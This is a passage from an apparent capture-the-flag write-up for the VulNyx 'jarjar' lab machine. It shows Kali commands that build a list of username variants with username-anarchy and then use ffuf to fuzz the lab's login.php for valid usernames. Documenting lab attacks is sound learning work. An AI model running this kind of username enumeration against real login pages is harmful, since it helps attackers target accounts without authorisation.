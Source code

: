 ![Firefox - User Enumeration 2](./assets/screenshots/vulnyx_jarjar_firefox_user_enumeration_2.png)

```
┌──(nabla㉿kali)-[~]
└─$ echo -e 'Jar Jar\nYoda\nObi Wan\nDarth Vader\nQuigon' | tee ./usernames.txt

Jar Jar
Yoda
Obi Wan
Darth Vader
Quigon

┌──(nabla㉿kali)-[~/tools/username-anarchy]
└─$ username-anarchy -i ./usernames.txt -f firstlast,flast,lfirst,first,last | tee ./usernames_anarchy.txt

jar
jarjar
jjar
jar-jar
yoda
obi
obiwan
owan
wobi
wan
darth
darthvader
dvader
vdarth
vader
quigon

┌──(nabla㉿kali)-[~]
└─$ ffuf -w ./usernames_anarchy.txt:FUZZ1 -u http://jarjar.nyx/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ1&password=Test123" -fr "Invalid Username or Password" -t 100

```